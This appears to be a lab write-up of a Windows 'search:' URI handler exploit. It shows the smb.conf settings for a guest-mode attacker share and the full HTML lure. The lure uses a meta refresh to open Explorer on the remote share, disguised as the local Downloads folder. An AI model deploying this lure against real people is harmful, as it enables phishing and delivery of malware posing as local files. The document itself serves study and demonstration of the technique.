 - ## Victim's Machine
- OS - Windows 10 1909
- Build - 18363.1139

- ## Attacker's Machine
- OS - Ubuntu noble 24.04 x86_64
- Kernel - Linux 6.8.0-35-generic
## Setting Up

#### Attacker's Machine
- A SMB share needs to be setup on the Attacker's machine.
- The shared folder should be accessible by guests.
- SMB version needs to be forces between 2 and 3.
```Text
client min protocol = SMB2
client max protocol = SMB3
```
- The shared folder needs to be set to guest mode.
```Text
[Share]
path = /home/share
public = yes
guest only = yes
force create mode = 0666
force directory mode = 0777
browseable = yes
```
- For testing purposes, there is a text file ( Hacked.txt )  in the folder.![](Attachments/Pasted%20image%2020240722004846.png)

#### Victim's Machine
- The victim machine has a HTML file designed to open up the payload on the attackers machine and disguise it as a local file.
- The HTML file
```HTML
<html>
<head></head>
<body>
    <div id="in-page-channel-node-id" data-channel-name="in-page-channel-cnXeD0"></div>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
    <link rel="icon" href="https://upload.wikimedia.org/wikipedia/commons/4/44/Microsoft_logo.svg">
    <meta property="og:image" content="https://upload.wikimedia.org/wikipedia/commons/4/44/Microsoft_logo.svg">
    <title>Untitled</title>
    <meta http-equiv="refresh" content="0; URL=search:query=hacked&amp;crumb=location:\\x-VBOX\Share&amp;displayname=Downloads"
    <p><a href="search:query=hacked&amp;crumb=location:\\x-VBOX\Share\&amp;displayname=Downloads">Untitled</p>
</body>
</html>
```


## The Exploit
- Victim opens the HTML file to see a webpage with a popup.![](Attachments/Pasted%20image%2020240722005020.png)
- Opening Windows Explorer![](Attachments/Pasted%20image%2020240722005156.png)
	1. Windows has searched for "hacked" .
	2. It appears as if the file is in "Downloads" .
 